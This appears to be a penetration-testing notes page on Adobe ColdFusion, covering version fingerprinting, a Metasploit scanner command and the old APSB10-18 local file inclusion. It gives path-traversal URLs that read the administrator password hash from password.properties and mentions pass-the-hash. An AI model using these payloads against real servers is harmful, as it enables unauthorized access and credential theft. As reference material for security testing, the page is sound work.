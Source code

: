 # Web applications - Software ColdFusion

### Overview

Adobe ColdFusion is a commercial web application development platform created
in 1995 which uses the programming language ColdFusion Markup Language (CFML).
Indeed, Adobe ColdFusion implements an engine which process the CFML files
(.cfm, .cfc).

Adobe ColdFusion can be run on Windows, Linux, Solaris, etc. and IIS, Apache,
etc. ColdFusion runs be default as `NT AUTHORITY\ SYSTEM` on Windows and
`nobody` on Linux.

While Adobe ColdFusion used to have a wider adoption, ColdFusion is used, as of
2019, by approximately 0.5% of all the public websites. Its main use cases
remains for intranets and niche web applications development. In 2012 the
`Google` search query `inurl:index.cfm` returned more than 750 millions results,
corresponding to approximately the same number of ColdFusion websites, while in
2019 it only returns around 30 millions results.

As of January 2019, the last Adobe ColdFusion version is `ColdFusion 2018`.

### Network scan and basic recon

###### Network scan

###### Version disclosure

The `adminapi` may be accessible and used to disclose the precise version being
used:

```
<http | https>://<HOSTNAME>:<PORT>/CFIDE/adminapi/base.cfc?wsdl

# <!--WSDL created by ColdFusion version X,X,X,X-->
```

The `Metasploit` module `auxiliary/scanner/http/coldfusion_version` can be used
to retrieve to the ColdFusion version in use:

The module relies on versions, author or copyright information that could be
disclosed in a Adobe ColdFusion core page body
(`/CFIDE/administrator/index.cfm`).

```
msf> use auxiliary/scanner/http/coldfusion_version
```

###### Standard vs Enterprise editions

The standard Adobe ColdFusion edition does not support `Javascript`.

Requesting a non-existing `jsp` file (such as /non-existing-randomnumber.jsp)
will thus give two different error messages depending on the edition used:

  - *Error HTTP 500 Internal server error* will be returned for a standard
    edition
  - *Error HTTP 404 Not Found* will be returned for an enterprise edition

###### ColdFusion default URL

### Known vulnerabilities

The `CVE Details` web page can be consulted for an updated list of the known
vulnerabilities discovered on Adobe ColdFusion:

```
https://www.cvedetails.com/product/8739/Adobe-Coldfusion.html
```

###### APSB10-18 Local File Inclusion

On Adobe ColdFusion MX6, MX7, 8.0, 8.0.1, 9.0, 9.0.1 with out the APSB10-18 patch,
released in August 2010, a local file inclusion vulnerability may be leveraged
to retrieve the administrator password SHA1 hash from the `password.properties`
file.

No patches were released for the Adobe ColdFusion MX6 and MX7 as theses
versions were end of life support at the time of the vulnerability discovery.    

If the local file inclusion could be successfully exploited, the password SHA1
hash will be displayed on the administrative login page.

```
# ColdFusion 6
<http | https>://<HOSTNAME>:<PORT>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%en

# ColdFusion 7

<http | https>://<HOSTNAME>:<PORT>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%en

# ColdFusion 8

<http | https>://<HOSTNAME>:<PORT>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%en

# All versions
<http | https>://<HOSTNAME>:<PORT>/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%en
```

Note that, in some cases, the hash does not need to be cracked as a
Pass-the-Hash authentication may be possible.

###### Client-side injection - cross-site scripting (XSS)

Multiples cross-site scripting vulnerabilities have been discovered over the
year on Adobe ColdFusion, for a total number of 31 discoveries as of
January 2019.  

###### Server-side injection - SQL injections (SQLi)

While no publicly known SQL injection are present on the Adobe ColdFusion core,
custom CF pages may be vulnerable to SQL injections.

Refer to the `[WebApps] SQL injections` notes for more information on how to
discover and exploit SQL injections flaws.   

### Administrator interface to RCE
